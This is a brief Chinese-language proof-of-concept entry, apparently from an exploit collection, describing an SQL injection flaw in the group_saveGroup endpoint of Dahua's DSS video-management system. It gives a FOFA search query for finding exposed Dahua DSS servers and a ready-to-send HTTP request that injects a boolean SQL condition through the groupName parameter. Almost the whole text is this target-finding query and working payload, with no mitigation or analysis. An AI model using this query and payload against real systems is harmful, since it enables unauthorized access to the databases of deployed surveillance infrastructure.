 # 大华DSS系统group_saveGroup存在SQL注入漏洞



## fofa

```yaml
app="dahua-DSS"
```

## poc

```javascript
GET /emap/group_saveGroup?groupName=1'%20and%202333=2333%20and%20'hami'='hami&groupDesc=1 HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: identity
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0
```

